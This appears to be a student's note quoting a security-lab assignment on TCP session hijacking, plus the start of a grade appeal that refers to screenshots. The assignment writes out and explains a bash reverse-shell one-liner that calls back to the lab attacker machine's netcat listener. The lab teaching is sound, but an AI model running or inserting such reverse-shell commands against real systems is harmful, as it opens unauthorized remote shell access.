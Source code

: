 ## Question

Q4 Task 4: Creating Reverse Shell using TCP Session Hijacking
30 Points
Grading comment:

When attackers are able to inject a command to the victim’s machine using TCP session hijacking, they are not interested in running one simple command on the victim machine; they are interested in running many commands. Obviously, running these commands all through TCP session hijacking is inconvenient. What attackers want to achieve is to use the attack to set up a back door, so they can use this back door to conveniently conduct further damages.

A typical way to set up back doors is to run a reverse shell from the victim machine to give the attack the shell access to the victim machine. Reverse shell is a shell process running on a remote machine, connecting back to the attacker’s machine. This gives an attacker a convenient way to access a remote machine once it has been compromised.

In the following, we will show how we can set up a reverse shell and how we can directly run a command on the victim machine (i.e. the server machine). In the TCP session hijacking attack, attackers cannot directly run a command on the victim machine, so their jobs is to run a reverse-shell command through the session hijacking attack. In this task, students need to demonstrate that they can achieve this goal. 

To have a bash shell on a remote machine and connect back to the attacker’s machine, the attacker needs a process waiting for some connection on a given port. In this example, we will use netcat. This program allows us to specify a port number and can listen for a connection on that port. In the following demo, we show two windows, each one is from a different machine. The top window is the attack machine 10.9.0.1, which runs netcat (nc for short), listening on port 9090. The bottom window is the victim machine 10.9.0.5, and we type the reverse shell command. As soon as the reverse shell gets executed, the top window indicates that we get a shell. This is a reverse shell, i.e., it runs on 10.9.0.5

We provide a brief description on the reverse shell command in the following.

    • "/bin/bash -i": i stands for interactive, meaning that the shell must be interactive (must provide a shell prompt)

    "> /dev/tcp/10.9.0.1/9090": This causes the output (stdout) of the shell to be redirected
    to the tcp connection to 10.9.0.1’s port 9090. The output stdout is represented by file descriptor number 1.

    "0<&1": File descriptor 0 represents the standard input (stdin). This causes the stdin for the shell to be obtained from the tcp connection.
    "2>&1": File descriptor 2 represents standard error stderr. This causes the error output to be redirected to the tcp connection.

In summary, "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1" starts a bash shell,
with its input coming from a tcp connection, and its standard and error outputs being redirected to the same tcp connection. 

In the demo shown above, when the bash shell command is executed on 10.9.0.5, it connects back to the netcat process started on 10.9.0.1. This is confirmed via the "Connection received on 10.9.0.5" message displayed by netcat.

The description above shows how you can set up a reverse shell if you have the access to the target machine, which is the telnet server in our setup, but in this task, you do not have such an access. Your task is to launch a TCP session hijacking attack on an existing telnet session between a user and the target server. You need to inject your malicious command into the hijacked session, so you can get a reverse shell on the target server.

- Please show your code (hardcoded values)
- show the attack in progress
- Wireshark frame showing the SEQ/ACK number that you copied from
- Wireshark frame showing the inject code, and showing the SEQ and ACK number
- Telnet connection failing
- netcat output
- File created on the victim's host using netcat (or some other attack)

## Argument

The code screenshot I submitted included this:
![[Screenshot 2025-06-04 at 1.48.49 PM.png]]

From the same screenshot we can see what docker containers we have, namely:
![[Screenshot 2025-06-04 at 1.49.28 PM.png | 400]]

